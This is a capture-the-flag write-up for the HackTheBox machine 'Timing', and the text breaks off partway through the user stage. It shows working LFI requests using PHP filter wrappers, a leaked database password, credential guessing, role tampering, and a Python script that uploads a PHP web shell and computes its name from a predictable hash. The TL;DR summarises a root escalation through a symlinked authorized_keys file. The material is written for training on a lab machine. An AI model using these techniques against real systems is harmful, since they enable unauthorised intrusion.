






# Timing - HackTheBox - Writeup
Linux, 30 Base Points, Medium


## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```22``` and ```80```.

***User***: Found ```LFI``` on ```image.php``` file, Reading the content of the php files, Found ```aaron``` user on ```/etc/passwd```, Using ```aaron:aaron``` credentials we can log in to the web portal, From ```profile_update.php``` file we can see we can change our ```role``` to get permission to upload files, Calculated the file name from ```upload.php``` file (We can calculate the "random" file name because the developer writes ```md5('$file_hash' ...)``` instead of ```md5($file_hash ...)``` on ```upload.php```) Using that we are uploading a web shell, Found backup file on ```/opt/source-files-backup.zip```, By extracting the backup we found ```.git``` directory, revert to a specific commit and we found the SSH password of ```aaron``` user on ```db_conn.php``` file. 

***Root***: By running ```sudo -l``` we found we can run ```/usr/bin/netutils``` (Which run a ```jar``` on ```root``` directory) as ```root```,  Using this ```jar``` we can download files to the target machine (```HTTP```/```FTP```) and write the files with ```root``` permission, Create ```symlink``` to ```/root/.ssh/authorized_keys``` on ```aaron``` home directory and download file with the same name from our host, this file contains our SSH public key, At the moment the file was download from our host we can log in as ```root``` using our SSH private key.


## Timing Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Timing]
└──╼ $ nmap -sV -sC -oA nmap/Timing 10.10.11.135
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-24 00:41 IST
Nmap scan report for 10.10.11.135
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:5c:40:d7:c9:fe:ff:a8:83:c3:6e:cd:60:11:d2:eb (RSA)
|   256 18:c9:f7:b9:27:36:a1:16:59:23:35:84:34:31:b3:ad (ECDSA)
|_  256 a2:2d:ee:db:4e:bf:f9:3f:8b:d4:cf:b4:12:d8:20:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Simple WebApp
|_Requested resource was ./login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

By observing port 80 we get the following web page:


We are unable to log in to this portal nothing interesting was found on the website.

Using ```gobuster``` we found the following files:
```console
┌─[evyatar@parrot]─[/hackthebox/Timing]
└──╼ $ gobuster dir -u http://10.10.11.135/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -k --wildcard -s 401,403,200 -x php,txt,js
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.135/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,js
[+] Timeout:                 10s
===============================================================
2021/12/27 23:03:35 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.11.135/images/]
/profile.php          (Status: 302) [Size: 0] [--> ./login.php]                  
/login.php            (Status: 200) [Size: 5609]                                 
/index.php            (Status: 302) [Size: 0] [--> ./login.php]                  
/image.php            (Status: 200) [Size: 0]                                    
/header.php           (Status: 302) [Size: 0] [--> ./login.php]                  
/upload.php           (Status: 302) [Size: 0] [--> ./login.php]                  
/footer.php           (Status: 200) [Size: 3937]                                 
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.135/css/]   
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.135/js/]    
/logout.php           (Status: 302) [Size: 0] [--> ./login.php]                  

```

We can see the file ```image.php```, By fuzzing the parameter to this PHP file using ```ffuf``` we found:
```console
┌─[evyatar@parrot]─[/hackthebox/Timing]
└──╼ $ ffuf -u 'http://10.10.11.135/image.php?FUZZ=/' -w /usr/share/wordlists/dirb/common.txt -fw 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.135/image.php?FUZZ=/
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 1
________________________________________________

img                     [Status: 200, Size: 25, Words: 3, Lines: 1]
:: Progress: [4614/4614] :: Job [1/1] :: 159 req/sec :: Duration: [0:00:27] :: Errors: 0 ::

```

By sending this request we get the following response:
```http
HTTP/1.1 200 OK
Date: Fri, 31 Dec 2021 12:27:23 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 25
Connection: close
Content-Type: text/html; charset=UTF-8

Hacking attempt detected!
```

If we are trying to read the file ```login.php``` we get the HTML content:
```http
GET /image.php?img=login.php HTTP/1.1
Host: 10.10.11.135
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=8g3lk0dlg37813am24a3v97jcu
Upgrade-Insecure-Requests: 1
Content-Length: 0

```

Response:
```http
HTTP/1.1 200 OK
Date: Fri, 31 Dec 2021 12:38:12 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 5609
Connection: close
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en">
<head>
    <title>Simple WebApp</title>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="./css/bootstrap.min.css">
    <script src="./js/jquery.min.js"></script>
    <script src="./js/bootstrap.min.js"></script>

    <style>
...
```

Let's try reading the file using PHP wrappers:
```http
GET /image.php?img=php://filter/convert.base64-encode/resource=login.php HTTP/1.1
Host: 10.10.11.135
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=8g3lk0dlg37813am24a3v97jcu
Upgrade-Insecure-Requests: 1
Content-Length: 0

``` 

Response:
```http
HTTP/1.1 200 OK
Date: Fri, 31 Dec 2021 12:40:12 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2764
Connection: close
Content-Type: text/html; charset=UTF-8

PD9waHAKCmluY2x1ZGUgImhlYWRlci5waHAiOwoKZnVuY3Rpb24gY3JlYXRlVGltZUNoYW5uZWwoKQp7CiAgICBzbGVlcCgxKTsKfQoKaW5jbHVkZSAiZGJfY29ubi5waHAiOwoKaWYgKGlzc2V0KCRfU0VTU0lPTlsndXNlcmlkJ10pKXsKICAgIGhlYWRlcignTG9jYXRpb246IC4vaW5kZXgucGhwJyk7CiAgICBkaWUoKTsKfQoKCmlmIChpc3NldCgkX0dFVFsnbG9naW4nXSkpIHsKICAgICR1c2VybmFtZSA9ICRfUE9TVFsndXNlciddOwogICAgJHBhc3N3b3JkID0gJF9QT1NUWydwYXNzd29yZCddOwoKICAgICRzdGF0ZW1lbnQgPSAkcGRvLT5wcmVwYXJlKCJTRUxFQ1QgKiBGUk9NIHVzZXJzIFdIRVJFIHVzZXJuYW1lID0gOnVzZXJuYW1lIik7CiAgICAkcmVzdWx0ID0gJHN0YXRlbWVudC0+ZXhlY3V0ZShhcnJheSgndXNlcm5hbWUnID0+ICR1c2VybmFtZSkpOwogICAgJHVzZXIgPSAkc3RhdGVtZW50LT5mZXRjaCgpOwoKICAgIGlmICgkdXNlciAhPT0gZmFsc2UpIHsKICAgICAgICBjcmVhdGVUaW1lQ2hhbm5lbCgpOwogICAgICAgIGlmIChwYXNzd29yZF92ZXJpZnkoJHBhc3N3b3JkLCAkdXNlclsncGFzc3dvcmQnXSkpIHsKICAgICAgICAgICAgJF9TRVNTSU9OWyd1c2VyaWQnXSA9ICR1c2VyWydpZCddOwogICAgICAgICAgICAkX1NFU1NJT05bJ3JvbGUnXSA9ICR1c2VyWydyb2xlJ107CgkgICAgaGVhZGVyKCdMb2NhdGlvbjogLi9pbmRleC5waHAnKTsKICAgICAgICAgICAgcmV0dXJuOwogICAgICAgIH0KICAgIH0KICAgICRlcnJvck1lc3NhZ2UgPSAiSW52YWxpZCB1c2VybmFtZSBvciBwYXNzd29yZCBlbnRlcmVkIjsKCgp9Cj8+Cjw/cGhwCmlmIChpc3NldCgkZXJyb3JNZXNzYWdlKSkgewoKICAgID8+CiAgICA8ZGl2IGNsYXNzPSJjb250YWluZXItZmx1aWQiPgogICAgICAgIDxkaXYgY2xhc3M9InJvdyI+CiAgICAgICAgICAgIDxkaXYgY2xhc3M9ImNvbC1tZC0xMCBjb2wtbWQtb2Zmc2V0LTEiPgogICAgICAgICAgICAgICAgPGRpdiBjbGFzcz0iYWxlcnQgYWxlcnQtZGFuZ2VyIGFsZXJ0LWRpc21pc3NpYmxlIGZhZGUgaW4gdGV4dC1jZW50ZXIiIHJvbGU9ImFsZXJ0Ij48c3Ryb25nPgoKICAgICAgICAgICAgICAgICAgICAgICAgPD9waHAgZWNobyAkZXJyb3JNZXNzYWdlOyA/PgoKICAgICAgICAgICAgICAgIDwvZGl2PgogICAgICAgICAgICA8L2Rpdj4KICAgICAgICA8L2Rpdj4KICAgIDwvZGl2PgogICAgPD9waHAKfQo/PgogICAgPGxpbmsgcmVsPSJzdHlsZXNoZWV0IiBocmVmPSIuL2Nzcy9sb2dpbi5jc3MiPgoKICAgIDxkaXYgY2xhc3M9IndyYXBwZXIgZmFkZUluRG93biI+CiAgICAgICAgPGRpdiBpZD0iZm9ybUNvbnRlbnQiPgogICAgICAgICAgICA8ZGl2IGNsYXNzPSJmYWRlSW4gZmlyc3QiIHN0eWxlPSJwYWRkaW5nOiAyMHB4Ij4KICAgICAgICAgICAgICAgIDxpbWcgc3JjPSIuL2ltYWdlcy91c2VyLWljb24ucG5nIiB3aWR0aD0iMTAwIiBoZWlnaHQ9IjEwMCIvPgogICAgICAgICAgICA8L2Rpdj4KCiAgICAgICAgICAgIDxmb3JtIGFjdGlvbj0iP2xvZ2luPXRydWUiIG1ldGhvZD0iUE9TVCI+CgogICAgICAgICAgICAgICAgPGlucHV0IHR5cGU9InRleHQiIGlkPSJsb2dpbiIgY2xhc3M9ImZhZGVJbiBzZWNvbmQiIG5hbWU9InVzZXIiIHBsYWNlaG9sZGVyPSJsb2dpbiI+CgogICAgICAgICAgICAgICAgPGlucHV0IHR5cGU9InRleHQiIGlkPSJwYXNzd29yZCIgY2xhc3M9ImZhZGVJbiB0aGlyZCIgbmFtZT0icGFzc3dvcmQiIHBsYWNlaG9sZGVyPSJwYXNzd29yZCI+CgogICAgICAgICAgICAgICAgPGlucHV0IHR5cGU9InN1Ym1pdCIgY2xhc3M9ImZhZGVJbiBmb3VydGgiIHZhbHVlPSJMb2cgSW4iPgoKICAgICAgICAgICAgPC9mb3JtPgoKCiAgICAgICAgICAgIDwhLS0gdG9kbyAtLT4KICAgICAgICAgICAgPGRpdiBpZD0iZm9ybUZvb3RlciI+CiAgICAgICAgICAgICAgICA8YSBjbGFzcz0idW5kZXJsaW5lSG92ZXIiIGhyZWY9IiMiPkZvcmdvdCBQYXNzd29yZD88L2E+CiAgICAgICAgICAgIDwvZGl2PgoKICAgICAgICA8L2Rpdj4KICAgIDwvZGl2PgoKCjw/cGhwCmluY2x1ZGUgImZvb3Rlci5waHAiOwo=
```

By decoding this Base64 we get:
```php
<?php

include "header.php";

function createTimeChannel()
{
    sleep(1);
}

include "db_conn.php";

if (isset($_SESSION['userid'])){
    header('Location: ./index.php');
    die();
}


if (isset($_GET['login'])) {
    $username = $_POST['user'];
    $password = $_POST['password'];

    $statement = $pdo->prepare("SELECT * FROM users WHERE username = :username");
    $result = $statement->execute(array('username' => $username));
    $user = $statement->fetch();

    if ($user !== false) {
        createTimeChannel();
        if (password_verify($password, $user['password'])) {
            $_SESSION['userid'] = $user['id'];
            $_SESSION['role'] = $user['role'];
	    header('Location: ./index.php');
            return;
        }
    }
    $errorMessage = "Invalid username or password entered";


}
?>
<?php
if (isset($errorMessage)) {

    ?>
    <div class="container-fluid">
        <div class="row">
            <div class="col-md-10 col-md-offset-1">
                <div class="alert alert-danger alert-dismissible fade in text-center" role="alert"><strong>

                        <?php echo $errorMessage; ?>

                </div>
            </div>
        </div>
    </div>
    <?php
}
?>
    <link rel="stylesheet" href="./css/login.css">

    <div class="wrapper fadeInDown">
        <div id="formContent">
            <div class="fadeIn first" style="padding: 20px">
                
            </div>

            <form action="?login=true" method="POST">

                <input type="text" id="login" class="fadeIn second" name="user" placeholder="login">

                <input type="text" id="password" class="fadeIn third" name="password" placeholder="password">

                <input type="submit" class="fadeIn fourth" value="Log In">

            </form>


            <!-- todo -->
            <div id="formFooter">
                <a class="underlineHover" href="#">Forgot Password?</a>
            </div>

        </div>
    </div>


<?php
include "footer.php";

```

By reading ```db_conn.php``` file we get:
```php
<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');

```

We can read also the file ```upload.php``` (from ```gobuster```):
```php
<?php
include("admin_auth_check.php");

$upload_dir = "images/uploads/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
$error = "";
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

if (isset($_POST["submit"])) {
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    if ($check === false) {
        $error = "Invalid file";
    }
}

// Check if file already exists
if (file_exists($target_file)) {
    $error = "Sorry, file already exists.";
}

if ($imageFileType != "jpg") {
    $error = "This extension is not allowed.";
}

if (empty($error)) {
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
        echo "The file has been uploaded.";
    } else {
        echo "Error: There was an error uploading your file.";
    }
} else {
    echo "Error: " . $error;
}
?>
```

And ```admin_auth_check.php``` is:
```php
<?php

include_once "auth_check.php";

if (!isset($_SESSION['role']) || $_SESSION['role'] != 1) {
    echo "No permission to access this panel!";
    header('Location: ./index.php');
    die();
}

?>
```

And ```auth_check.php``` is:
```php
<?php

//ini_set('display_errors', '1');
//ini_set('display_startup_errors', '1');
//error_reporting(E_ALL);

// session is valid for 1 hour
ini_set('session.gc_maxlifetime', 3600);
session_set_cookie_params(3600);

session_start();
if (!isset($_SESSION['userid']) && strpos($_SERVER['REQUEST_URI'], "login.php") === false) {
    header('Location: ./login.php');
    die();
}
?>
```

And ```image.php``` is:
```php
<?php

function is_safe_include($text)
{
    $blacklist = array("php://input", "phar://", "zip://", "ftp://", "file://", "http://", "data://", "expect://", "https://", "../");

    foreach ($blacklist as $item) {
        if (strpos($text, $item) !== false) {
            return false;
        }
    }
    return substr($text, 0, 1) !== "/";

}

if (isset($_GET['img'])) {
    if (is_safe_include($_GET['img'])) {
        include($_GET['img']);
    } else {
        echo "Hacking attempt detected!";
    }
}

```

So we have the ```upload.php``` file and credentials from ```db_conn.php``` file where those credentials are not working with ```admin``` user.

By reading ```/etc/passwd``` we get:
```console
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
aaron:x:1000:1000:aaron:/home/aaron:/bin/bash
```

If we are trying to log in to the web portal with the users from ```/etc/passwd``` file with the password from the ```db_conn.php``` which is ```4_V3Ry_l0000n9_p422w0rd``` - It's failed, but if we are trying to login with the same password as the user name It's worked for the user ```aaron```.

We can do it using [Using Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder/using):


And by using ```aaron:aaron``` credentials we get:



As remembered before, we read the file ```upload.php``` which allows us to upload files if we are with ```role=1``` (Checked on ```admin_auth_check.php``` file).

If we are trying to access to ```upload.php``` now we get the following response:
```HTTP
HTTP/1.1 302 Found
Date: Fri, 07 Jan 2022 21:23:27 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: ./index.php
Content-Length: 35
Connection: close
Content-Type: text/html; charset=UTF-8

No permission to access this panel!
```

By clicking on ```Update``` button on [Edit Profile](http://10.10.11.135/profile.php) page we can see an ```POST``` request to ```profile_update.php``` file:



Where ```profile_update.php``` is:
```php
<?php

include "auth_check.php";

$error = "";

if (empty($_POST['firstName'])) {
    $error = 'First Name is required.';
} else if (empty($_POST['lastName'])) {
    $error = 'Last Name is required.';
} else if (empty($_POST['email'])) {
    $error = 'Email is required.';
} else if (empty($_POST['company'])) {
    $error = 'Company is required.';
}

if (!empty($error)) {
    die("Error updating profile, reason: " . $error);
} else {

    include "db_conn.php";

    $id = $_SESSION['userid'];
    $statement = $pdo->prepare("SELECT * FROM users WHERE id = :id");
    $result = $statement->execute(array('id' => $id));
    $user = $statement->fetch();

    if ($user !== false) {

        ini_set('display_errors', '1');
        ini_set('display_startup_errors', '1');
        error_reporting(E_ALL);

        $firstName = $_POST['firstName'];
        $lastName = $_POST['lastName'];
        $email = $_POST['email'];
        $company = $_POST['company'];
        $role = $user['role'];

        if (isset($_POST['role'])) {
            $role = $_POST['role'];
            $_SESSION['role'] = $role;
        }


        // dont persist role
        $sql = "UPDATE users SET firstName='$firstName', lastName='$lastName', email='$email', company='$company' WHERE id=$id";

        $stmt = $pdo->prepare($sql);
        $stmt->execute();

        $statement = $pdo->prepare("SELECT * FROM users WHERE id = :id");
        $result = $statement->execute(array('id' => $id));
        $user = $statement->fetch();

        // but return it to avoid confusion
        $user['role'] = $role;
        $user['6'] = $role;

        echo json_encode($user, JSON_PRETTY_PRINT);

    } else {
        echo "No user with this id was found.";
    }

}

?>
```

By looking at the code we can see that we can send the ```role``` to the ```POST``` request by sending:



Now, Let's try to access the ```upload.php```:
```HTTP
POST /upload.php HTTP/1.1
Host: 10.10.11.135
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryePkpFF7tjBAqx29L
Connection: close
Cookie: PHPSESSID=925pktr00bdc6s10regd7o5pud
Upgrade-Insecure-Requests: 1
Content-Length: 203

------WebKitFormBoundaryePkpFF7tjBAqx29L
Content-Disposition: form-data; name="fileToUpload"; filename="example.jpg"
Content-Type: image/jpeg


testcontent
------WebKitFormBoundaryePkpFF7tjBAqx29L
```

Response:
```HTTP
HTTP/1.1 200 OK
Date: Fri, 07 Jan 2022 21:41:10 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 27
Connection: close
Content-Type: text/html; charset=UTF-8


The file has been uploaded.
```

And we can upload files, But as we can see from ```upload.php``` file we need to know the file name which calculated by;
```php
...
$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
...
```

As we can see It's calculated the ```md5``` of ```'$file_hash` .time()``` and NOT the file hash of ```$file_hash . time()``` meaning we need to calculate ```md5("$file_hash" . time())_OURFILENAME.JPG```, We can do it using the following code:
```python
import requests
import time
import hashlib

file_name='my_file.jpg'
file_upload = open(file_name, "rb")
upload_url = "http://10.10.11.135/upload.php"
get_file_url = "http://10.10.11.135/image.php?img=images/uploads/"
cookies={'PHPSESSID':'925pktr00bdc6s10regd7o5pud'}


def get_uploaded_file(time_before_upload):
        total_tries = 1000
        while total_tries > 0:
            calculated_file_name = hashlib.md5(f"$file_hash{time_before_upload}".encode('utf8')).hexdigest() + "_" + file_name
            calculated_file_url = f"{get_file_url}{calculated_file_name}"
            uploaded_file = requests.get(calculated_file_url, cookies=cookies)

            if uploaded_file.status_code == 200:
                print(f"Found on: {calculated_file_url}")
                #print(uploaded_file.text)
                break
            else:
               print(f"Not found on {calculated_file_url} {total_tries}")

            time_before_upload = time_before_upload+1
            total_tries = total_tries -1

time_before_upload = int(time.time())
response = requests.post(upload_url, files = {"fileToUpload": file_upload},cookies=cookies)

if 'The file has been uploaded.' in response.text:
	print(response.text)
	print("Trying to get the file...")
	get_uploaded_file(time_before_upload)
else:
	print(f"Error while file uploading {response.text}")
```

NOTE: because of the time sync between the target machine and our host we may need to run it a few times.

And the file ```my_file.jpg``` contains [web shell](https://github.com/artyuum/Simple-PHP-Web-Shell/blob/master/index.php).

And as remembered before, We can access files from ```image.php``` file.

We can’t make outbound connections, All blocked by machine firewall that's why we need a web shell.

Let's run the script:
```console
┌─[evyatar@parrot]─[/hackthebox/Timing]
└──╼ $ python3 file_uploader.py
The file has been uploaded.
Trying to get the file...
